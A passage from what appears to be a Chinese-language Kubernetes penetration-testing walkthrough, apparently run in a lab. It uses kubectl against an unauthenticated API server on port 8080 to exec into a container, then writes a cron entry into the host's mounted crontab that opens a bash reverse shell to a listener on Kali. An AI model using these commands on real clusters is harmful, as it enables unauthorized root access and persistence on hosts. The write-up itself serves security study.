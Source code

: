 [![](assets/1701678402-9976ad3b00dedfb40b31ef9e6704cb88.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130190914-e564a0c0-8f70-1.png)  
接下来利用未授权进入该容器中写入定时任务

```bash
利用 8080 的未授权 API 接口进入创建的容器
kubectl -s 192.168.108.100:8080 --namespace=default exec -it test bash
写入定时任务
echo -e "* * * * * root bash -i >& /dev/tcp/192.168.108.131/9999 0>&1\n" >> /mnt/etc/crontab
```

这里本来的想法是反弹到公网的服务器上的，但发现实现不了需要端口映射到物理机，因此在 Kali 中接收 shell，这里需要等一会，大概 1 分钟内能有回显  